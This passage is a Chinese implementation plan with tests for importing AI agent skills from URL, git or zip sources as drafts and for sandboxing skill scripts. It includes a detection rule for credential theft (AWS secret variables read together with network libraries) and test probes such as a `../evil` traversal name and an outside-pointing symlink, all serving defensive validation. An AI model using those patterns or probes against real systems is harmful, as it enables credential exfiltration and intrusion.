

# 技能广域加载 + 脚本沙箱 实施计划

> **For agentic workers:** REQUIRED SUB-SKILL: Use superpowers:subagent-driven-development (recommended) or superpowers:executing-plans to implement this plan task-by-task. Steps use checkbox (`- [ ]`) syntax for tracking.

**Goal:** 让 Agent Skills 能从 URL / git 仓库 / zip 归档导入（递归发现多技能、一律落 draft），并让技能包自带的 `*.py` / `*.sh` 只能在无凭证、无网络、临时目录、超时受限的沙箱中运行。

**Architecture:** 摄入层（`skills/sources.py`）把任意源取到系统临时目录 → 递归发现所有含 `SKILL.md` 的目录 → 逐包做名字/穿越/符号链接/体积/文件类型校验 → staging + 原子 rename 落到 `skills_draft_dir`，接上既有的 draft → review → promote → `.archive` 审批链；扫描层（`security.scan_skill_bundle`）在 promote 时把整包（含脚本）过一遍确定性正则闸门；执行层（`skills/sandbox.py`）是一条与 `run_on_host`/`run_kubectl` 正交的新通道，只跑 published 技能的脚本，env 从空 dict 起建，拿不到隔离器就拒跑。

**Tech Stack:** Python 3.11+，标准库 only（`urllib.request` / `zipfile` / `tarfile` / `subprocess` / `tempfile`）；pydantic-settings（config schema）；Typer + Rich（CLI）；FastAPI（Web）；pytest（全部 hermetic，零网络零真实 AWS）。

**Spec:** `docs/superpowers/specs/2026-09-07-skill-wide-loading-and-script-sandbox-design.md`（提交 `715c286`）——本计划是该 spec 的论证，冲突一律以 spec 为准。

## Global Constraints

以下每条都是**每个任务隐含的验收要求**，值逐字取自 spec 与 `CLAUDE.md`：

1. **绝不落密**：AWS 凭证 / 密码 / AK·SK / session token / 私钥**绝不写入任何文件、DB、日志、注释、测试或 Agent Memory**。测试里需要"看起来像凭证"的字符串时，只用 `AWS_SECRET_ACCESS_KEY` 这样的**变量名**，绝不写任何形似真实密钥的值。
2. **config.py 只放 schema**，所有默认值同时写进 `config/settings.yaml`（`CLAUDE.md` 铁律）。
3. **凭证安全铁律**：本特性不接触 provider 层，沙箱子进程 env **从空 dict 起建**（因此结构上不可能出现任何 `AWS_*`）；不得使用 `os.environ` 继承。
4. **导入是人类动作**：不给 agent 任何导入工具；导入的技能**一律落 draft**（不注入提示词、不自动 promote）。
5. **导入过程绝不执行包内任何代码**（不跑 `install.sh`、不 import 包内 `.py`）。
6. **fail-closed**：任何校验/扫描违规 → 拒绝该包 / 拒跑该脚本，绝不降级放行。
7. **绝不谎称隔离**：拿不到 `unshare -n`（Linux）/ `sandbox-exec`（macOS）时，`skills_sandbox_require_isolation=true`（默认）就拒跑；为 false 时照跑但 `SandboxResult.isolation == "none"` 并在日志显式标注。
8. **不动 `loader.py`**，不改三层渐进披露，不改提示词预算。
9. **不碰与需求无关的代码**；新增字段/端点/子命令均为增量。
10. **沙箱默认关闭**（`skills_sandbox_enabled: false`），显式开启才生效。
11. 提交用 `git commit`；**push 一律 `git push --no-verify`，且必须先完成测试 + 主人确认**（本计划不含 push 步骤）。
12. Python 环境：`source .venv/bin/activate`。

## 实施前已决裁定（Rulings — 实现者按此执行，勿回退到 spec 字面）

| # | 事实 | 裁定 |
|---|---|---|
| R1 | `POST /api/skills/import` **已存在**（`web/app.py:3852`，multipart 上传 `.md`/`.zip`），被前端 `hooks/useSkills.ts:62` 与 `tests/test_skills_api.py` 的 5 个测试使用 | **不改它**。新端点叫 **`POST /api/skills/import-source`**（JSON body `{uri, names}`）。避免破坏前端与既有测试（Global Constraint 9） |
| R2 | `loader._validate_skill_name(name, skill_dir)` 要求 `skill_dir.name == name` | 导入时把**目标 draft 目录**（`skills_draft_dir/<name>`）传给它——归档里的目录叫什么与我们无关，而 kebab-case / 长度 / 连字符 / 路径穿越守卫全部照旧生效 |
| R3 | CLI 里**没有** `aiops skills` 命令组（技能只有 chat 内 `/skill` 斜杠命令） | 新建 `skills_app = typer.Typer(...)` 并 `app.add_typer(skills_app, name="skills")`；因 `import` 是 Python 关键字，函数名用 `skills_import`，命令名用 `@skills_app.command("import")` |
| R4 | `curator._write_skill_md(skill_dir, fm, body)` 已是 frontmatter+body 的原子渲染器 | provenance 打戳直接复用它，不新写渲染器（DRY） |
| R5 | spec 未指定 `run_skill_script` 挂给哪些 agent | 只挂 **executor**（唯一的执行 agent，`agents/executor_agent.py:262` 那批 skills 工具旁），双重门控：config 开关 + 工具内再判 |
| R6 | spec §5 说"环境捞凭证外传"是**同现**条件 | `.py` 里出现 `AWS_SECRET_ACCESS_KEY` / `AWS_SESSION_TOKEN` **仅当**同文件出现 `requests`/`urllib`/`httpx`/`socket`/`boto3` 才判 finding；其余破坏性模式无条件判 |

---

## File Structure

| 文件 | 动作 | 职责 |
|---|---|---|
| `src/agenticops/config.py` | 改（在 `skills_security_scan_on_promote` 之后，即 `config.py:434` 之后插入） | 10 个新 schema 字段 |
| `config/settings.yaml` | 改（在 `skills_security_scan_on_promote: true` 之后，即第 222 行后） | 上述字段默认值 |
| `src/agenticops/skills/sources.py` | 新增 | `fetch` / `discover_packages` / `install_packages` / `import_skills` |
| `src/agenticops/skills/security.py` | 改（文件末尾追加） | `scan_skill_bundle` + `_PY_DESTRUCTIVE_PATTERNS` |
| `src/agenticops/skills/review.py` | 改（`promote_skill` 的安全门那 6 行） | 由扫正文改为扫整包 |
| `src/agenticops/skills/curator.py` | 改（1 行，`curator.py:123`） | 老化判定纳入 `imported` |
| `src/agenticops/skills/sandbox.py` | 新增 | `detect_isolation` / `run_script` / `SandboxResult` |
| `src/agenticops/skills/tools.py` | 改（文件末尾追加） | `@tool run_skill_script` |
| `src/agenticops/agents/executor_agent.py` | 改（`:262` 工具列表 + `:45` import） | 条件挂载 `run_skill_script` |
| `src/agenticops/cli/main.py` | 改（`:243` add_typer 附近 + 新命令） | `aiops skills import <uri>` |
| `src/agenticops/web/app.py` | 改（在 `:3923` 既有 import 端点之后插入） | `POST /api/skills/import-source` |
| `tests/test_skill_sources.py` | 新增 | 摄入层 |
| `tests/test_skill_bundle_scan.py` | 新增 | 扫描层 + promote 门 + Curator |
| `tests/test_skill_sandbox.py` | 新增 | 沙箱层 |
| `CLAUDE.md` / `docs/WORKFLOW.md` / `skills/ADDING_SKILLS.md` | 改 | 文档同步 |

`loader.py` 不动。

---

## Task 1: 配置层（schema + 默认值）

**Files:**
- Modify: `src/agenticops/config.py`（在 `skills_security_scan_on_promote` 字段之后，约 `:434`）
- Modify: `config/settings.yaml`（在 `skills_security_scan_on_promote: true` 之后，约 `:222`）
- Test: `tests/test_skills_config.py`（已存在，追加）

**Interfaces:**
- Consumes: 无
- Produces: `settings.skills_import_enabled: bool`、`settings.skills_import_max_package_bytes: int`、`settings.skills_import_max_files: int`、`settings.skills_import_allowed_extensions: list[str]`、`settings.skills_import_timeout_seconds: int`、`settings.skills_sandbox_enabled: bool`、`settings.skills_sandbox_timeout_seconds: int`、`settings.skills_sandbox_max_output_chars: int`、`settings.skills_sandbox_require_isolation: bool`、`settings.skills_sandbox_interpreters: dict[str, str]`

- [ ] **Step 1: 写失败测试**

追加到 `tests/test_skills_config.py` 末尾：

```python
class TestSkillImportSandboxConfig:
    """MVP: skill wide-loading + script sandbox config surface."""

    def test_import_defaults(self):
        from agenticops.config import settings
        assert settings.skills_import_enabled is True
        assert settings.skills_import_max_package_bytes == 2097152
        assert settings.skills_import_max_files == 50
        assert settings.skills_import_timeout_seconds == 60
        assert ".md" in settings.skills_import_allowed_extensions
        assert ".py" in settings.skills_import_allowed_extensions
        assert ".sh" in settings.skills_import_allowed_extensions
        # 可执行/二进制类后缀必须不在白名单
        for bad in (".so", ".dylib", ".exe", ".bin"):
            assert bad not in settings.skills_import_allowed_extensions

    def test_sandbox_defaults_are_closed(self):
        from agenticops.config import settings
        # 新执行通道默认关闭，且默认拒绝无隔离运行
        assert settings.skills_sandbox_enabled is False
        assert settings.skills_sandbox_require_isolation is True
        assert settings.skills_sandbox_timeout_seconds == 60
        assert settings.skills_sandbox_max_output_chars == 20000
        assert settings.skills_sandbox_interpreters[".py"] == "python"
        assert settings.skills_sandbox_interpreters[".sh"] == "/bin/bash"

    def test_yaml_carries_the_values_not_only_the_schema(self):
        """CLAUDE.md 铁律：默认值必须落在 settings.yaml，config.py 只有 schema。"""
        import yaml
        from agenticops.config import PROJECT_ROOT
        data = yaml.safe_load((PROJECT_ROOT / "config" / "settings.yaml").read_text(encoding="utf-8"))
        for key in (
            "skills_import_enabled",
            "skills_import_max_package_bytes",
            "skills_import_max_files",
            "skills_import_allowed_extensions",
            "skills_import_timeout_seconds",
            "skills_sandbox_enabled",
            "skills_sandbox_timeout_seconds",
            "skills_sandbox_max_output_chars",
            "skills_sandbox_require_isolation",
            "skills_sandbox_interpreters",
        ):
            assert key in data, f"{key} missing from config/settings.yaml"
```

- [ ] **Step 2: 跑测试确认失败**

Run: `source .venv/bin/activate && python -m pytest tests/test_skills_config.py::TestSkillImportSandboxConfig -v`
Expected: FAIL —— `AttributeError: 'Settings' object has no attribute 'skills_import_enabled'`

- [ ] **Step 3: 最小实现**

在 `src/agenticops/config.py` 的 `skills_security_scan_on_promote` 字段之后插入：

```python
    # ── Skill wide loading (URL / git / zip) ───────────────────────
    skills_import_enabled: bool = Field(
        default=True,
        description="Enable importing skills from URL/git/zip sources (AIOPS_SKILLS_IMPORT_ENABLED)",
    )
    skills_import_max_package_bytes: int = Field(
        default=2097152,
        description="Max total bytes per imported skill package (also caps downloads) (AIOPS_SKILLS_IMPORT_MAX_PACKAGE_BYTES)",
    )
    skills_import_max_files: int = Field(
        default=50,
        description="Max file count per imported skill package (AIOPS_SKILLS_IMPORT_MAX_FILES)",
    )
    skills_import_allowed_extensions: list[str] = Field(
        default=[".md", ".py", ".sh", ".txt", ".json", ".yaml", ".yml", ".csv"],
        description="File-extension allowlist for imported skill packages (AIOPS_SKILLS_IMPORT_ALLOWED_EXTENSIONS)",
    )
    skills_import_timeout_seconds: int = Field(
        default=60,
        description="Timeout for download / git clone during skill import (AIOPS_SKILLS_IMPORT_TIMEOUT_SECONDS)",
    )

    # ── Skill script sandbox (restricted local execution) ──────────
    skills_sandbox_enabled: bool = Field(
        default=False,
        description="Enable running skill-owned *.py/*.sh in the restricted sandbox (AIOPS_SKILLS_SANDBOX_ENABLED)",
    )
    skills_sandbox_timeout_seconds: int = Field(
        default=60,
        description="Per-run timeout for a sandboxed skill script (AIOPS_SKILLS_SANDBOX_TIMEOUT_SECONDS)",
    )
    skills_sandbox_max_output_chars: int = Field(
        default=20000,
        description="Truncation cap applied to sandbox stdout and stderr each (AIOPS_SKILLS_SANDBOX_MAX_OUTPUT_CHARS)",
    )
    skills_sandbox_require_isolation: bool = Field(
        default=True,
        description="Refuse to run when no network isolator (unshare -n / sandbox-exec) is available (AIOPS_SKILLS_SANDBOX_REQUIRE_ISOLATION)",
    )
    skills_sandbox_interpreters: dict[str, str] = Field(
        default={".py": "python", ".sh": "/bin/bash"},
        description="Suffix -> interpreter allowlist for sandboxed scripts ('python' resolves to sys.executable) (AIOPS_SKILLS_SANDBOX_INTERPRETERS)",
    )
```

在 `config/settings.yaml` 的 `skills_security_scan_on_promote: true` 之后插入：

```yaml
# ── Skill wide loading (URL / git / zip) ───────────────────────
skills_import_enabled: true
skills_import_max_package_bytes: 2097152   # 2 MiB
skills_import_max_files: 50
skills_import_allowed_extensions: [".md", ".py", ".sh", ".txt", ".json", ".yaml", ".yml", ".csv"]
skills_import_timeout_seconds: 60

# ── Skill script sandbox (no credentials, no network) ──────────
skills_sandbox_enabled: false               # 新执行通道，默认关
skills_sandbox_timeout_seconds: 60
skills_sandbox_max_output_chars: 20000
skills_sandbox_require_isolation: true      # 拿不到隔离器就拒跑，绝不假装无网络
skills_sandbox_interpreters:
  ".py": python
  ".sh": /bin/bash
```

- [ ] **Step 4: 跑测试确认通过**

Run: `source .venv/bin/activate && python -m pytest tests/test_skills_config.py -v`
Expected: PASS（全文件，确认没破坏既有配置测试）

- [ ] **Step 5: 提交**

```bash
git add src/agenticops/config.py config/settings.yaml tests/test_skills_config.py
git commit -m "feat(skills): config schema + defaults for wide loading and script sandbox"
```

---

## Task 2: `discover_packages` —— 递归发现多技能

**Files:**
- Create: `src/agenticops/skills/sources.py`
- Test: `tests/test_skill_sources.py`

**Interfaces:**
- Consumes: Task 1 的 `settings.skills_import_*`
- Produces: `discover_packages(root: Path) -> list[Path]`（按路径排序的、每个含 `SKILL.md` 的目录；命中即不下钻）；模块级 `_SKIP_DIRS: set[str]`

- [ ] **Step 1: 写失败测试**

新建 `tests/test_skill_sources.py`：

```python
"""Skill ingestion tests — hermetic: no network, no real AWS, no cloning from the internet."""

import os
import zipfile
from pathlib import Path

import pytest


SKILL_MD = """---
name: {name}
description: {name} test skill for ingestion
---

# {name}

Read-only helper.
"""


def _make_pkg(root: Path, name: str, extra: dict[str, str] | None = None) -> Path:
    pkg = root / name
    pkg.mkdir(parents=True, exist_ok=True)
    (pkg / "SKILL.md").write_text(SKILL_MD.format(name=name), encoding="utf-8")
    for rel, content in (extra or {}).items():
        target = pkg / rel
        target.parent.mkdir(parents=True, exist_ok=True)
        target.write_text(content, encoding="utf-8")
    return pkg


class TestDiscoverPackages:
    def test_finds_every_skill_md_dir_sorted(self, tmp_path):
        from agenticops.skills.sources import discover_packages

        root = tmp_path / "repo"
        _make_pkg(root, "alpha-skill")
        _make_pkg(root / "nested", "beta-skill")
        _make_pkg(root / "nested" / "deeper", "gamma-skill")

        pkgs = discover_packages(root)
        assert [p.name for p in pkgs] == ["alpha-skill", "beta-skill", "gamma-skill"]

    def test_root_itself_can_be_a_package(self, tmp_path):
        from agenticops.skills.sources import discover_packages

        root = tmp_path / "single-skill"
        _make_pkg(tmp_path, "single-skill")
        assert discover_packages(root) == [root]

    def test_does_not_descend_into_a_hit(self, tmp_path):
        """技能内部的 references/SKILL.md 不得被当成第二个包（spec 测试 4）。"""
        from agenticops.skills.sources import discover_packages

        root = tmp_path / "repo"
        pkg = _make_pkg(root, "alpha-skill")
        (pkg / "references").mkdir()
        (pkg / "references" / "SKILL.md").write_text(SKILL_MD.format(name="nope"), encoding="utf-8")

        assert discover_packages(root) == [pkg]

    def test_skips_vcs_and_dot_dirs(self, tmp_path):
        from agenticops.skills.sources import discover_packages

        root = tmp_path / "repo"
        _make_pkg(root, "alpha-skill")
        _make_pkg(root / ".git", "ghost-skill")
        _make_pkg(root / "node_modules", "vendor-skill")
        _make_pkg(root / ".hidden", "hidden-skill")

        assert [p.name for p in discover_packages(root)] == ["alpha-skill"]

    def test_missing_root_returns_empty(self, tmp_path):
        from agenticops.skills.sources import discover_packages
        assert discover_packages(tmp_path / "nope") == []
```

- [ ] **Step 2: 跑测试确认失败**

Run: `source .venv/bin/activate && python -m pytest tests/test_skill_sources.py -v`
Expected: FAIL —— `ModuleNotFoundError: No module named 'agenticops.skills.sources'`

- [ ] **Step 3: 最小实现**

新建 `src/agenticops/skills/sources.py`：

```python
"""Skill ingestion from wide sources — URL / git repo / zip archive.

Human-driven only: agents get no import tool. Every imported package lands as
a DRAFT (never published, never injected into a prompt, never executed), so the
existing draft -> review -> promote -> .archive chain stays the single approval
path. Nothing inside an imported package is ever run during import.
"""

from __future__ import annotations

import logging
from pathlib import Path

logger = logging.getLogger(__name__)

# Directories never treated as (or searched for) skill packages.
_SKIP_DIRS = {".git", "__pycache__", "node_modules", ".archive", ".staging", "draft"}


def discover_packages(root: Path) -> list[Path]:
    """Recursively find every directory holding a SKILL.md.

    A directory that has SKILL.md IS a package and is not descended into (so a
    skill's own references/SKILL.md never becomes a second package). Skips VCS,
    vendor and dot directories. Deterministic (sorted) output.
    """
    found: list[Path] = []

    def walk(d: Path) -> None:
        if (d / "SKILL.md").is_file():
            found.append(d)
            return
        try:
            children = sorted(d.iterdir())
        except OSError as e:
            logger.warning("Cannot list %s during skill discovery: %s", d, e)
            return
        for child in children:
            if not child.is_dir() or child.is_symlink():
                continue
            if child.name in _SKIP_DIRS or child.name.startswith("."):
                continue
            walk(child)

    if root.is_dir():
        walk(root)
    return sorted(found)
```

- [ ] **Step 4: 跑测试确认通过**

Run: `source .venv/bin/activate && python -m pytest tests/test_skill_sources.py -v`
Expected: PASS（5 项）

- [ ] **Step 5: 提交**

```bash
git add src/agenticops/skills/sources.py tests/test_skill_sources.py
git commit -m "feat(skills): recursive multi-skill package discovery"
```

---

## Task 3: `install_packages` —— 逐包校验 + staging 原子落盘 + provenance

**Files:**
- Modify: `src/agenticops/skills/sources.py`
- Test: `tests/test_skill_sources.py`（追加）

**Interfaces:**
- Consumes: Task 2 的 `discover_packages`；`loader._validate_skill_name` / `parse_frontmatter` / `normalize_skill_frontmatter` / `_invalidate_skills_cache`；`curator._write_skill_md`（R4）
- Produces:
  - `@dataclass ImportedSkill(name: str, path: Path, files: int, bytes: int)`
  - `@dataclass ImportResult(source_uri: str, source_ref: str, installed: list[ImportedSkill], skipped: list[tuple[str, str]], rejected: list[tuple[str, str]])`
  - `install_packages(pkgs: list[Path], source_uri: str, source_ref: str, names: list[str] | None = None) -> ImportResult`
  - 内部：`class _Reject(Exception)`、`_package_files(pkg_dir) -> list[Path]`、`_validate_package(pkg_dir) -> list[Path]`、`_stamp_provenance(pkg_dir, name, source_uri, source_ref)`

- [ ] **Step 1: 写失败测试**

追加到 `tests/test_skill_sources.py`：

```python
@pytest.fixture
def skill_dirs(tmp_path, monkeypatch):
    """Point settings at throwaway published/draft dirs (pattern from tests/test_skills_curator.py)."""
    from agenticops.skills.loader import _invalidate_skills_cache

    sdir = tmp_path / "skills"
    ddir = sdir / "draft"
    ddir.mkdir(parents=True)
    monkeypatch.setattr("agenticops.config.settings.skills_dir", sdir, raising=False)
    monkeypatch.setattr("agenticops.config.settings.skills_draft_dir", ddir, raising=False)
    _invalidate_skills_cache()
    yield sdir, ddir
    _invalidate_skills_cache()


class TestInstallPackages:
    def test_installs_as_draft_with_provenance(self, tmp_path, skill_dirs):
        from agenticops.skills.loader import parse_frontmatter
        from agenticops.skills.sources import discover_packages, install_packages

        _sdir, ddir = skill_dirs
        src = tmp_path / "src"
        _make_pkg(src, "alpha-skill", {"references/deep.md": "# deep"})

        res = install_packages(discover_packages(src), "file://src", "deadbeef")

        assert [s.name for s in res.installed] == ["alpha-skill"]
        assert res.skipped == [] and res.rejected == []
        landed = ddir / "alpha-skill"
        assert (landed / "SKILL.md").is_file()
        assert (landed / "references" / "deep.md").is_file()

        fm, _ = parse_frontmatter((landed / "SKILL.md").read_text(encoding="utf-8"))
        assert fm["created_by"] == "imported"
        assert fm["status"] == "active"
        assert fm["source_uri"] == "file://src"
        assert fm["source_ref"] == "deadbeef"
        assert fm["imported_at"]
        assert res.installed[0].files == 2
        assert res.installed[0].bytes > 0

    def test_multi_skill_repo_all_land(self, tmp_path, skill_dirs):
        from agenticops.skills.sources import discover_packages, install_packages

        _sdir, ddir = skill_dirs
        src = tmp_path / "src"
        for n in ("alpha-skill", "beta-skill", "gamma-skill"):
            _make_pkg(src, n)

        res = install_packages(discover_packages(src), "file://src", "ref")
        assert sorted(s.name for s in res.installed) == ["alpha-skill", "beta-skill", "gamma-skill"]
        for n in ("alpha-skill", "beta-skill", "gamma-skill"):
            assert (ddir / n / "SKILL.md").is_file()

    def test_names_filter_skips_the_rest(self, tmp_path, skill_dirs):
        from agenticops.skills.sources import discover_packages, install_packages

        _sdir, ddir = skill_dirs
        src = tmp_path / "src"
        for n in ("alpha-skill", "beta-skill"):
            _make_pkg(src, n)

        res = install_packages(discover_packages(src), "file://src", "ref", names=["beta-skill"])
        assert [s.name for s in res.installed] == ["beta-skill"]
        assert res.skipped == [("alpha-skill", "not in requested names")]
        assert not (ddir / "alpha-skill").exists()

    def test_existing_draft_is_skipped_not_overwritten(self, tmp_path, skill_dirs):
        from agenticops.skills.sources import discover_packages, install_packages

        _sdir, ddir = skill_dirs
        (ddir / "alpha-skill").mkdir()
        (ddir / "alpha-skill" / "SKILL.md").write_text("ORIGINAL", encoding="utf-8")

        src = tmp_path / "src"
        _make_pkg(src, "alpha-skill")

        res = install_packages(discover_packages(src), "file://src", "ref")
        assert res.installed == []
        assert len(res.skipped) == 1 and res.skipped[0][0] == "alpha-skill"
        assert (ddir / "alpha-skill" / "SKILL.md").read_text(encoding="utf-8") == "ORIGINAL"

    def test_published_same_name_is_skipped(self, tmp_path, skill_dirs):
        from agenticops.skills.sources import discover_packages, install_packages

        sdir, ddir = skill_dirs
        (sdir / "alpha-skill").mkdir(parents=True)
        (sdir / "alpha-skill" / "SKILL.md").write_text("PUBLISHED", encoding="utf-8")

        src = tmp_path / "src"
        _make_pkg(src, "alpha-skill")

        res = install_packages(discover_packages(src), "file://src", "ref")
        assert res.installed == []
        assert res.skipped[0][0] == "alpha-skill"
        assert not (ddir / "alpha-skill").exists()

    @pytest.mark.parametrize("bad_name", ["Foo Bar", "../evil", "UPPER", "double--hyphen", "x" * 200])
    def test_bad_skill_names_rejected(self, tmp_path, skill_dirs, bad_name):
        from agenticops.skills.sources import discover_packages, install_packages

        _sdir, ddir = skill_dirs
        src = tmp_path / "src"
        pkg = src / "pkg"
        pkg.mkdir(parents=True)
        (pkg / "SKILL.md").write_text(
            f'---\nname: "{bad_name}"\ndescription: bad name probe\n---\n\nbody\n', encoding="utf-8"
        )

        res = install_packages(discover_packages(src), "file://src", "ref")
        assert res.installed == []
        assert len(res.rejected) == 1
        assert list(ddir.iterdir()) == []

    def test_disallowed_extension_rejects_whole_package(self, tmp_path, skill_dirs):
        from agenticops.skills.sources import discover_packages, install_packages

        _sdir, ddir = skill_dirs
        src = tmp_path / "src"
        pkg = _make_pkg(src, "alpha-skill")
        (pkg / "payload.so").write_bytes(b"\x00binary")

        res = install_packages(discover_packages(src), "file://src", "ref")
        assert res.installed == []
        assert res.rejected[0][0] == "alpha-skill"
        assert "not allowed" in res.rejected[0][1]
        assert not (ddir / "alpha-skill").exists()

    def test_too_many_files_rejected(self, tmp_path, skill_dirs, monkeypatch):
        from agenticops.skills.sources import discover_packages, install_packages

        monkeypatch.setattr("agenticops.config.settings.skills_import_max_files", 3, raising=False)
        _sdir, ddir = skill_dirs
        src = tmp_path / "src"
        pkg = _make_pkg(src, "alpha-skill")
        for i in range(5):
            (pkg / f"note{i}.md").write_text("x", encoding="utf-8")

        res = install_packages(discover_packages(src), "file://src", "ref")
        assert res.installed == []
        assert "too many files" in res.rejected[0][1]
        assert not (ddir / "alpha-skill").exists()

    def test_too_large_rejected(self, tmp_path, skill_dirs, monkeypatch):
        from agenticops.skills.sources import discover_packages, install_packages

        monkeypatch.setattr("agenticops.config.settings.skills_import_max_package_bytes", 512, raising=False)
        _sdir, ddir = skill_dirs
        src = tmp_path / "src"
        pkg = _make_pkg(src, "alpha-skill")
        (pkg / "big.txt").write_text("x" * 4096, encoding="utf-8")

        res = install_packages(discover_packages(src), "file://src", "ref")
        assert res.installed == []
        assert "too large" in res.rejected[0][1]
        assert not (ddir / "alpha-skill").exists()

    def test_symlink_in_package_rejected(self, tmp_path, skill_dirs):
        from agenticops.skills.sources import discover_packages, install_packages

        _sdir, ddir = skill_dirs
        secret = tmp_path / "outside.txt"
        secret.write_text("outside", encoding="utf-8")
        src = tmp_path / "src"
        pkg = _make_pkg(src, "alpha-skill")
        os.symlink(secret, pkg / "link.txt")

        res = install_packages(discover_packages(src), "file://src", "ref")
        assert res.installed == []
        assert "symlink" in res.rejected[0][1]
        assert not (ddir / "alpha-skill").exists()

    def test_scripts_land_without_exec_bit(self, tmp_path, skill_dirs):
        from agenticops.skills.sources import discover_packages, install_packages

        _sdir, ddir = skill_dirs
        src = tmp_path / "src"
        pkg = _make_pkg(src, "alpha-skill", {"tool.sh": "#!/bin/sh\necho hi\n"})
        os.chmod(pkg / "tool.sh", 0o755)

        install_packages(discover_packages(src), "file://src", "ref")
        mode = (ddir / "alpha-skill" / "tool.sh").stat().st_mode
        assert not (mode & 0o111), "imported scripts must not be executable"

    def test_one_bad_package_does_not_block_the_others(self, tmp_path, skill_dirs):
        from agenticops.skills.sources import discover_packages, install_packages

        _sdir, ddir = skill_dirs
        src = tmp_path / "src"
        _make_pkg(src, "good-skill")
        bad = _make_pkg(src, "bad-skill")
        (bad / "payload.so").write_bytes(b"\x00")

        res = install_packages(discover_packages(src), "file://src", "ref")
        assert [s.name for s in res.installed] == ["good-skill"]
        assert res.rejected[0][0] == "bad-skill"
        assert (ddir / "good-skill").is_dir()

    def test_no_staging_leftovers(self, tmp_path, skill_dirs):
        from agenticops.skills.sources import discover_packages, install_packages

        _sdir, ddir = skill_dirs
        src = tmp_path / "src"
        _make_pkg(src, "alpha-skill")
        install_packages(discover_packages(src), "file://src", "ref")
        staging = ddir / ".staging"
        assert not staging.exists() or list(staging.iterdir()) == []
```

- [ ] **Step 2: 跑测试确认失败**

Run: `source .venv/bin/activate && python -m pytest tests/test_skill_sources.py::TestInstallPackages -v`
Expected: FAIL —— `ImportError: cannot import name 'install_packages'`

- [ ] **Step 3: 最小实现**

在 `src/agenticops/skills/sources.py` 的 import 区补上，并追加实现：

```python
import os
import shutil
import uuid
from dataclasses import dataclass, field
from datetime import datetime, timezone

from agenticops.config import settings
from agenticops.skills.curator import _write_skill_md
from agenticops.skills.loader import (
    _invalidate_skills_cache,
    _validate_skill_name,
    normalize_skill_frontmatter,
    parse_frontmatter,
)
```

```python
@dataclass
class ImportedSkill:
    name: str
    path: Path
    files: int
    bytes: int


@dataclass
class ImportResult:
    source_uri: str
    source_ref: str
    installed: list[ImportedSkill] = field(default_factory=list)
    skipped: list[tuple[str, str]] = field(default_factory=list)
    rejected: list[tuple[str, str]] = field(default_factory=list)


class _Reject(Exception):
    """A package failed validation — record it and move to the next one."""


def _package_files(pkg_dir: Path) -> list[Path]:
    """Every regular file in the package. Rejects symlinks, specials, escapes."""
    root = pkg_dir.resolve()
    out: list[Path] = []
    for p in sorted(pkg_dir.rglob("*")):
        rel = p.relative_to(pkg_dir)
        if p.is_symlink():
            raise _Reject(f"symlink not allowed: {rel}")
        if p.is_dir():
            continue
        if not p.is_file():
            raise _Reject(f"not a regular file: {rel}")
        if not str(p.resolve()).startswith(str(root) + os.sep):
            raise _Reject(f"path escapes package root: {rel}")
        out.append(p)
    return out


def _validate_package(pkg_dir: Path) -> list[Path]:
    files = _package_files(pkg_dir)
    max_files = settings.skills_import_max_files
    if len(files) > max_files:
        raise _Reject(f"too many files: {len(files)} > {max_files}")
    cap = settings.skills_import_max_package_bytes
    total = sum(f.stat().st_size for f in files)
    if total > cap:
        raise _Reject(f"package too large: {total} > {cap} bytes")
    allowed = {e.lower() for e in settings.skills_import_allowed_extensions}
    for f in files:
        if f.suffix.lower() not in allowed:
            raise _Reject(f"file type not allowed: {f.relative_to(pkg_dir)}")
    return files


def _stamp_provenance(pkg_dir: Path, name: str, source_uri: str, source_ref: str) -> None:
    """Rewrite SKILL.md frontmatter with import provenance (created_by=imported)."""
    fm, body = parse_frontmatter((pkg_dir / "SKILL.md").read_text(encoding="utf-8"))
    fm = normalize_skill_frontmatter(fm)
    fm["name"] = name
    fm["created_by"] = "imported"
    fm["status"] = "active"
    fm["source_uri"] = source_uri
    fm["source_ref"] = source_ref
    fm["imported_at"] = datetime.now(timezone.utc).isoformat(timespec="seconds")
    _write_skill_md(pkg_dir, fm, body)


def _install_one(pkg_dir: Path, name: str, source_uri: str, source_ref: str) -> ImportedSkill:
    """Copy a validated package into skills_draft_dir/<name> atomically."""
    files = _validate_package(pkg_dir)
    staging_root = settings.skills_draft_dir / ".staging"
    staging_root.mkdir(parents=True, exist_ok=True)
    staging = staging_root / f"{name}-{uuid.uuid4().hex[:8]}"
    try:
        total = 0
        for f in files:
            dst = staging / f.relative_to(pkg_dir)
            dst.parent.mkdir(parents=True, exist_ok=True)
            data = f.read_bytes()
            dst.write_bytes(data)
            os.chmod(dst, 0o644)          # never executable — the sandbox names the interpreter
            total += len(data)
        _stamp_provenance(staging, name, source_uri, source_ref)
        target = settings.skills_draft_dir / name
        target.parent.mkdir(parents=True, exist_ok=True)
        os.replace(staging, target)       # atomic — no half-installed state
    finally:
        shutil.rmtree(staging, ignore_errors=True)
    return ImportedSkill(name=name, path=target, files=len(files), bytes=total)


def install_packages(
    pkgs: list[Path],
    source_uri: str,
    source_ref: str,
    names: list[str] | None = None,
) -> ImportResult:
    """Install discovered packages as DRAFTS. Per-package fail-soft, security fail-closed."""
    result = ImportResult(source_uri=source_uri, source_ref=source_ref)
    wanted = set(names) if names else None

    for pkg in pkgs:
        try:
            fm, _ = parse_frontmatter((pkg / "SKILL.md").read_text(encoding="utf-8"))
        except Exception as e:
            result.rejected.append((str(pkg), f"unreadable SKILL.md: {e}"))
            continue

        raw_name = (fm.get("name") if isinstance(fm, dict) else None) or pkg.name
        name = str(raw_name).strip()
        # R2: validate against the DESTINATION dir — the archive's own dir name is not ours
        if not _validate_skill_name(name, settings.skills_draft_dir / name):
            result.rejected.append((name[:64] or str(pkg), "invalid skill name"))
            continue

        if wanted is not None and name not in wanted:
            result.skipped.append((name, "not in requested names"))
            continue
        if (settings.skills_draft_dir / name).exists():
            result.skipped.append((name, "draft already exists — reject the old draft first"))
            continue
        if (settings.skills_dir / name).exists():
            result.skipped.append((name, "already published — use improve_skill, or rollback first"))
            continue

        try:
            result.installed.append(_install_one(pkg, name, source_uri, source_ref))
        except _Reject as e:
            result.rejected.append((name, str(e)))
        except Exception as e:
            logger.warning("Import of skill '%s' failed: %s", name, e)
            result.rejected.append((name, f"install failed: {e}"))

